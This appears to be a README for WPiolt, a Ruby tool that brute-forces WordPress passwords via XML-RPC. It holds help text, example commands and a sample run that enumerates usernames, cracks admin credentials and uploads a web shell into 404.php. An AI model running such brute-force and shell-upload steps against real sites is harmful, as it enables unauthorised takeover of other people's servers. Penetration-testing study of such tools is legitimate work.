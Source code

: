 #WPiolt

================================================================================================

WPiolt - Wordpress Bruteforce tool via XML-RPC. The basic version only provides limited functionalities.


Developer : Andy Yang
Version : 0.1.0
License : GPLv3

================================================================================================
RainMak3r@Could:~/Desktop# ruby WPiolt.rb  -h

 _    _ ______  _  _          
| |  | || ___ \(_)| |       | |  
| |  | || |_/ / _ | |  ___  | |_      
| |/\| ||  __/ | || | / _ \ | __|       
\  /\  /| |    | || || (_) || |_          Basic Version - 0.1 by Andy Yang
 \/  \/ \_|    |_||_| \___/ \__|          contactayang[AT]gmail[DOT]com



EXAMPLE USAGE:

     ./WPilot.rb  -t 'www.target.com' -d '/User/eve/dic.txt'
     ./WPilot.rb  -t '10.0.0.1/wordpress' -d '/User/eve/dic.txt'
    -t, --Target URL/IP              Wordpress target URL or IP
    -d, --Dictionary path            Dictionary file for password Bruteforce.
    -h, --help                       Display help

================================================================================================
Example of usage.
================================================================================================
RainMak3r@Could:~/Desktop#ruby WPilot.rb -t '192.168.0.11/wordpress' -d '/dic'

[Info]     Checking if the target is vulnerable........

[Info]     Target is vulnerable!!!

[Info]     Retreving usernames........

[Info]      Found username: admin

[Info]      Found username: Alice

[Info]      Found username: Bob

[Info]      Bruteforcing passwords ........

[Info]      Cracked Admin Creds: andy:1234567

[Info]      Uploading shell into 404.php..........

[DONE]      Please check a non existing post for the uploaded web shell


